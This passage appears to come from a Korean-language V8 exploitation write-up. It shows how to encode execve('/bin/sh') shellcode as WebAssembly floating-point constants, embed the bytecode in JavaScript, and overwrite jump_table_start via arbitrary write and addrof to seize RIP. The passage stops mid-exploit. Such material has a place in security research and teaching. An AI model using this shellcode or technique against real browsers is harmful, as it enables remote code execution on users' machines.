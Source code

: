 ### 4.1.Wasm Shellcode

현재 `jump_table_start`의 경우 AAW를 통해 RIP컨트롤 획득을 할 수 있다는 것을 알았습니다.

따라서 부동소수점 쉘코드를 Wasm 바이트코드로 변환한 후 JS파일에 포함시키고, `rwx`영역의 주소를 구한 후 쉘코드의 시작지점으로 `jump_table_start`의 값을 덮어쓰면 작성한 쉘코드가 실행될 것입니다.

```wasm
(module
  (func (export "main2") (result f64 f64 f64 f64 f64 f64 f64 f64)
    f64.const 0xceb909090583b6a
    f64.const 0xceb5b0068732f68
    f64.const 0xceb596e69622f68
    f64.const 0xceb909020e3c148
	  f64.const 0xceb909053cb0148
    f64.const 0xceb909090e78948
    f64.const 0xcebd23148f63148
    f64.const 0xceb90909090050f
))
```

 `execve(”/bin/sh”)`를 실행하는 쉘코드의 경우 위와 같이 만들어 주었습니다. 위의 f64값은 부동소수점 쉘코드의 원리와 동일하게 동작합니다. 이를 `wat2wasm`으로 컴파일하여 바이트코드만 추출하였습니다.

```jsx
var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 12, 1, 96, 0, 8, 124, 124, 124, 124, 124, 124, 124, 124, 3, 2, 1, 0, 7, 9, 1, 5, 109, 97, 105, 110, 50, 0, 0, 10, 76, 1, 74, 0, 68, 106, 59, 88, 144, 144, 144, 235, 7, 68, 104, 47, 115, 104, 0, 91, 235, 7, 68, 104, 47, 98, 105, 110, 89, 235, 7, 68, 72, 193, 227, 32, 144, 144, 235, 7, 68, 72, 1, 203, 83, 144, 144, 235, 7, 68, 72, 137, 231, 144, 144, 144, 235, 7, 68, 72, 49, 246, 72, 49, 210, 235, 7, 68, 15, 5, 144, 144, 144, 144, 235, 7, 11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
var f = wasmInstance.exports.main2;
```

추출한 바이트코드를 위와 같이 JS에 포함시켜줍니다. 한가지 더 알아야 할 것이 `jump_table_start` 주소 변조의 경우 WasmInstance당 단 1번만 가능하다는 것입니다. 한번 Wasm함수를 실행시켜 `jump_table_start`의 주소를 참조했다면 다음부터는 `jump_table_start`를 변조하여도 RIP가 조작되지 않습니다.

### 4.2.Exploit

따라서 WasmInstance를 2개 만들거나 Wasm에 2개의 function을 만들어 한 곳에는 쉘코드를 담고 한 곳은 RIP 조작 용도로 쓰면 익스플로잇이 가능합니다.

```jsx
var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 12, 1, 96, 0, 8, 124, 124, 124, 124, 124, 124, 124, 124, 3, 2, 1, 0, 7, 9, 1, 5, 109, 97, 105, 110, 50, 0, 0, 10, 76, 1, 74, 0, 68, 106, 59, 88, 144, 144, 144, 235, 7, 68, 104, 47, 115, 104, 0, 91, 235, 7, 68, 104, 47, 98, 105, 110, 89, 235, 7, 68, 72, 193, 227, 32, 144, 144, 235, 7, 68, 72, 1, 203, 83, 144, 144, 235, 7, 68, 72, 137, 231, 144, 144, 144, 235, 7, 68, 72, 49, 246, 72, 49, 210, 235, 7, 68, 15, 5, 144, 144, 144, 144, 235, 7, 11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
var f = wasmInstance.exports.main2;
f();

...

var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 6, 1, 96, 2, 126, 126, 0, 3, 2, 1, 0, 7, 8, 1, 4, 109, 97, 105, 110, 0, 0, 10, 4, 1, 2, 0, 11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance2 = new WebAssembly.Instance(wasmModule);
var f2 = wasmInstance2.exports.main;

wasmInstance_addr = addrof(wasmInstance);
wasmInstance2_addr = addrof(wasmInstance2);

jump_table_addr = wasmInstance_addr + 0x48n - 1n;
```